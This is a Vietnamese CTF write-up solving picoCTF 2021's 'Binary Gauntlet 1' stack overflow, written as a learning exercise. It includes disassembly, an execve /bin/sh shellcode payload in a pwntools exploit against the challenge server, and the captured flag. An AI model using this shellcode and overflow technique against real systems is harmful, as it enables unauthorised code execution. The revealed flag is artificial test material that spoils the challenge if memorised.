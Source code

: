# Binary Gauntlet 1
[Tham khảo binary gauntlet 0](../Binary-Gauntlet-0)
## Kiểm tra file
### File
```bash
gauntlet: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=2a7f79b758fdc250528e5bbc3da169fbf74e4ad3, not stripped
```
### Checksec
```bash
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x400000)
RWX:      Has RWX segments
```
Cũng như gauntlet 0, không khác gì lắm
## Decompile & Disassemble
### Decompile main
```c
undefined8 main(void)
{
  char local_78 [104];
  char *local_10;
  
  local_10 = (char *)malloc(1000);
  printf("%p\n",local_78);
  fflush(stdout);
  fgets(local_10,1000,stdin);
  local_10[999] = '\0';
  printf(local_10);
  fflush(stdout);
  fgets(local_10,1000,stdin);
  local_10[999] = '\0';
  strcpy(local_78,local_10);
  return 0;
}
```
Lần này chương trình không có phương thức để đọc flag. Vì vậy chúng ta sẽ dùng shellcode để mở shell và đọc flag. Chương trình cung cấp cho ta địa chỉ của biến local_78, đây sẽ là nơi ta chèn shellcode vào và return về
```c
printf("%p\n",local_78);
```
### Disassemble main
```asm
0x0000000000400687 <+0>:	push   rbp
0x0000000000400688 <+1>:	mov    rbp,rsp
0x000000000040068b <+4>:	add    rsp,0xffffffffffffff80
0x000000000040068f <+8>:	mov    DWORD PTR [rbp-0x74],edi
0x0000000000400692 <+11>:	mov    QWORD PTR [rbp-0x80],rsi
0x0000000000400696 <+15>:	mov    edi,0x3e8
0x000000000040069b <+20>:	call   0x400580 <malloc@plt>
0x00000000004006a0 <+25>:	mov    QWORD PTR [rbp-0x8],rax
0x00000000004006a4 <+29>:	lea    rax,[rbp-0x70]
0x00000000004006a8 <+33>:	mov    rsi,rax
0x00000000004006ab <+36>:	lea    rdi,[rip+0x122]        # 0x4007d4
0x00000000004006b2 <+43>:	mov    eax,0x0
0x00000000004006b7 <+48>:	call   0x400560 <printf@plt>
0x00000000004006bc <+53>:	mov    rax,QWORD PTR [rip+0x20098d]        # 0x601050 <stdout@@GLIBC_2.2.5>
0x00000000004006c3 <+60>:	mov    rdi,rax
0x00000000004006c6 <+63>:	call   0x400590 <fflush@plt>
0x00000000004006cb <+68>:	mov    rdx,QWORD PTR [rip+0x20098e]        # 0x601060 <stdin@@GLIBC_2.2.5>
0x00000000004006d2 <+75>:	mov    rax,QWORD PTR [rbp-0x8]
0x00000000004006d6 <+79>:	mov    esi,0x3e8
0x00000000004006db <+84>:	mov    rdi,rax
0x00000000004006de <+87>:	call   0x400570 <fgets@plt>
0x00000000004006e3 <+92>:	mov    rax,QWORD PTR [rbp-0x8]
0x00000000004006e7 <+96>:	add    rax,0x3e7
0x00000000004006ed <+102>:	mov    BYTE PTR [rax],0x0
0x00000000004006f0 <+105>:	mov    rax,QWORD PTR [rbp-0x8]
0x00000000004006f4 <+109>:	mov    rdi,rax
0x00000000004006f7 <+112>:	mov    eax,0x0
0x00000000004006fc <+117>:	call   0x400560 <printf@plt>
0x0000000000400701 <+122>:	mov    rax,QWORD PTR [rip+0x200948]        # 0x601050 <stdout@@GLIBC_2.2.5>
0x0000000000400708 <+129>:	mov    rdi,rax
0x000000000040070b <+132>:	call   0x400590 <fflush@plt>
0x0000000000400710 <+137>:	mov    rdx,QWORD PTR [rip+0x200949]        # 0x601060 <stdin@@GLIBC_2.2.5>
0x0000000000400717 <+144>:	mov    rax,QWORD PTR [rbp-0x8]
0x000000000040071b <+148>:	mov    esi,0x3e8
0x0000000000400720 <+153>:	mov    rdi,rax
0x0000000000400723 <+156>:	call   0x400570 <fgets@plt>
0x0000000000400728 <+161>:	mov    rax,QWORD PTR [rbp-0x8]
0x000000000040072c <+165>:	add    rax,0x3e7
0x0000000000400732 <+171>:	mov    BYTE PTR [rax],0x0
0x0000000000400735 <+174>:	mov    rdx,QWORD PTR [rbp-0x8]
0x0000000000400739 <+178>:	lea    rax,[rbp-0x70]
0x000000000040073d <+182>:	mov    rsi,rdx
0x0000000000400740 <+185>:	mov    rdi,rax
0x0000000000400743 <+188>:	call   0x400550 <strcpy@plt>
0x0000000000400748 <+193>:	mov    eax,0x0
0x000000000040074d <+198>:	leave  
0x000000000040074e <+199>:	ret  
```
Biến local_78 nằm tại [rbp - 0x70]. Chúng ta cần 0x80 bytes để ghi đè return address. Payload của ta sẽ có dạng "shellcode + padding * (0x78 - độ dài shellcode) + địa chỉ biến local_78"
## Exploit
```python
from pwn import *

context.binary = ELF("./gauntlet")

run = remote("mercury.picoctf.net", 13644)

addr = run.recvline()

run.sendline("Pwned")

addr = int(addr, 16)

payload = b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'
payload += b'A' * (0x78 - len(payload))
payload += p64(addr)

run.sendline(payload)

run.interactive()
```
## Output
```bash
[*] '/home/revirven/Desktop/GitHub/CTF-Writeups/PicoCTF-2021/Binary-Exploitation/Binary-Gauntlet-1/gauntlet'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Opening connection to mercury.picoctf.net on port 13644: Done
[*] Switching to interactive mode
Pwned
$ cat flag.txt
66fa43e73fc405235d4d2aa9da1b257f
```

